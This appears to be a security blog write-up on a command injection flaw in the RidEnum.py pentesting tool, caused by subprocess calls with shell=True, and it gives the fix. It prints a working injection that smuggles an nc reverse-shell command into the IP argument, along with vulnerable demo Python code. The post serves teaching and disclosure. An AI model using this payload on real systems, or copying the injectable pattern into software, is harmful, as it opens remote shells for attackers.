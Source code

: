 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Pwning A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me get all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals or groups can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the drug or alcohol choice of the individual/group was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html
 2. https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html
 3. https://security.openstack.org/guidelines/dg_use-subprocess-securely.html
 4. https://security.openstack.org/guidelines/dg_avoid-shell-true.html
 5. https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd
 6. https://docs.python.org/3.7/library/subprocess.html#popen-objects
 
The links above focus more on which a user is prompted to provide input via the `input` function in Python. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as a vast majority of Linux machines will probably not have this tool installed. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the Domain SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool was using a Subprocess.Popen object or two to execute a shell command. This appears on lines 62 and 78. 

There is at least one argument that helped me obtain code execution, which was the argument for the rhost's IP address. It also looks like the `auth` argument is a possibility, but I've had no luck with using it. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (or optional username argument) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a whole *string* variable that contains the entirety of a bash command, so everything is treated literally so to speak. Rather the string referenced by the `command` variable should have been broken down into a list of strings (`command = ["rpcclient", "-U", "\"{}\"".format(auth), "{}".format(ip) "-c", "\"lsaquery\""]`)


Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little tricker. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of crap after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject the bash command `id`.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
ls
CHANGELOG.txt
LICENSE.txt
README.md
ridenum.py
```

Note how I placed the `nc` command with the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, it looks like `ridenum.py` trys creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after the `nc` command will keep the reverse shell alive until you exit it.

Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. In addition breaking down the `command` variable down into a list of strings would fix the issue also as this wouldn't treat each subsquent string as an argument to the string in the first indice.


## You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```
